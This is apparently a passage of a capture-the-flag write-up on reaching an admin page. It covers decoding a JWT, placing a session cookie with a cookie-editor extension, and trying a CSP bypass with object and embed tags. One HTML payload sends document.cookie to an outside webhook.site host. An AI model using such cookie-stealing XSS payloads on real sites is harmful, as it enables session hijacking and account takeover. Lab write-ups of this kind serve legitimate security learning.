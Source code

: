 ![5-jwt-decode.png](./static/5-jwt-decode.png)



## Notes
If I want to inside to admin page I could do it adding the cookie to the browser, i use [firefox cookie editor extension](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) to do that.
![5-cookie-session.png](./static/5-cookie-session.png)

### First attemp
When I was trying to [bypass the CSP  using the object tag](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#bypass-csp-by-akita_zen)

Theese work on firefox but not on chrome (testing locally with the docker image):
```html
<object data="https://webhook.site/2bbcc730-4932-43ed-a209-a85203091910"></object>

<embed src="https://webhook.site/2bbcc730-4932-43ed-a209-a85203091910"></embed>


<object data="https://webhook.site/2bbcc730-4932-43ed-a209-a85203091910?cookie="+document.cookie></object>
```

